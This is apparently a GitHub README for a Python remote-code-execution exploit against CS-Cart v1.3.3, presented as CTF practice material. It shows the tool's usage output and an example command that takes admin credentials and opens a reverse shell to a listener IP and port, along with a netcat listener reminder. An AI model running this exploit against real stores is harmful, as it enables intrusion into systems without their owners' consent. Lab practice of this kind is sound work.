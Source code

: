 ## Cs-Cart v1.3.3 RCE
- [CS-Cart Multi-Vendor](https://www.cs-cart.com/) is a standalone eCommerce marketplace platform that allows you to create a marketplace.
- This exploit has been designed to practice on CTF vulnerable machines running an outdated version of CS-Cart
## USAGE:
```
❯ python3 Cs-Cart.py -h
usage: Cs-Cart.py [-h] -U URL -u USERNAME -p PASSWORD -L IP -P PORT

CS-Cart RCE Exploit v1.3.3

options:
  -h, --help            show this help message and exit
  -U URL, --url URL     Remote host URL where CS-Cart is located
  -u USERNAME, --username USERNAME
                        CS-Cart Admin username
  -p PASSWORD, --password PASSWORD
                        CS-Cart Admin password
  -L IP, --ip IP        Local IP address for reverseshell
  -P PORT, --port PORT  Local port to received reverseshell
```
## EXAMPLE:
```
❯ python3 Cs-Cart.py -U http://192.168.199.39 -u admin -p admin -L 192.168.45.161 -P 443
```
![cs-cart1](https://github.com/user-attachments/assets/48651990-ed48-4bc6-b407-9922bedd2db4)
**[!] Do not forget to open a netcat listener on the port specified in the exploit to recieved the revershell.**
## VIDEO:
[CS-Cart Exploit.webm](https://github.com/user-attachments/assets/19bc2a4b-3c0e-4b94-961c-3ae5f628605f)


